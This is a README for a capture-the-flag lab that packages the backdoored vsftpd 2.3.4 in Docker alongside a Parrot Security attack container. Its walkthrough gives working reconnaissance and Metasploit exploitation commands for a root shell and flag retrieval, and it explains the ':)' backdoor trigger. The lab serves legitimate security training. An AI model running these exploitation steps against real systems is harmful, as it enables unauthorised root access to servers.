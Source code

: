 # WCCI CTF Exercise 1

Ubuntu container with a vulnerable version of [vsftpd-2.3.4](https://github.com/nikdubois/vsftpd-2.3.4-infected/tree/vsftpd_original) installed.
This version of vsftpd-2.3.4 contains a malicious backdoor, which could be triggered when a username contained a ":)". Upon execution, a bind shell on port 6200 was opened, giving remote root access to anyone connecting to that port.

The container also contains the latest version of Parrot Security, which can be used to exploit this vulnerability.

## Requirements

- Docker
- Docker Compose

## Instructions (Local)

1. Clone this Repo: `git clone https://github.com/johnathan-wcci/VSFTPD-2.3.4-Exercise-1.git`
2. Navigate into this folder: `cd VSFTPD-2.3.4-Exercise-1`
3. Start the Docker Container: `docker compose -f .\docker-compose.yml up'
4. Open Another Terminal.
5. Bash into the Parrot Security Container. This is your attack machine: `docker exec -it test-ctf-Parrot-1 bash`
6. Find Target Machine:
    1. Get Your Machine IP: `ifconfig`
    2. Find the [subnet mask](https://www.aelius.com/njh/subnet_sheet.html).
    3. Run nmap with no port scan to find online machines: `nmap <network-address>/<subnet-mask>`
    4. Run nmap Version Detection on machine with suspected vulnerability: `nmap -sV <ip-address>`
    5. Document the suspected machines IP Address.
7. Open the Metasploit Console: `msfconsole`
8. Select the vsftpd-2.3.4 exploit: `use unix/ftp/vsftpd_234_backdoor`
9. View configurable options: `show options`
10. Set the Target machine: `set RHOST <taget-machine-ip>`
11. Run the exploit: `exploit`
12. Wait for Reverse Shell to start
13. Run a test command to see if shell session is established: `ls -l`
14. Find the flag: `cat ~/Documents/Important\ Keys/keys.txt`
15. Use your favorite Base64 Decoder to decode the flag.
16. DO NOT LEAVE THESE CONTAINERS RUNNING! Stop the docker containers by running: `docker compose -f .\docker-compose.yml down`

## Deploying On Digital Ocean

### Pre-requisites

- A Cloud Environment
- A Firewall Setup
- A VPC Setup
- A Deployed Machine Running Ubuntu 22.04, Behind Firewall and VPC

### Instructions

1. Clone this Repo: `git clone https://github.com/johnathan-wcci/VSFTPD-2.3.4-Exercise-1.git`
2. Navigate into this folder: `cd VSFTPD-2.3.4-Exercise-1`
3. Set execute permissions for the setup script: `chmod 770 digital-ocean-setup.sh`
4. Run the setup shell script: `./digital-ocean-setup.sh`
5. Validate FTP port is open: `ss -tunln`
6. PLEASE DO NOT LEAVE THIS MACHINE RUNNING!

## Extra Credit

1. Try manually exploiting this backdoor.
2. Try writing a Python script to exploit this backdoor. There is a shared volume between the Parrot Container and the Host machine that will allow you to develop scripts in your favorite IDE. The mount directory is located at `/home/dev`.

## Resources

[Rapid7 MSFConsole Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor/)

[Rapid7 VSFTPD-2.3.4 Exploit Module Source Code](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/ftp/vsftpd_234_backdoor.rb)

[University of Hawaii Writeup](https://westoahu.hawaii.edu/cyber/forensics-weekly-executive-summmaries/8424-2/)
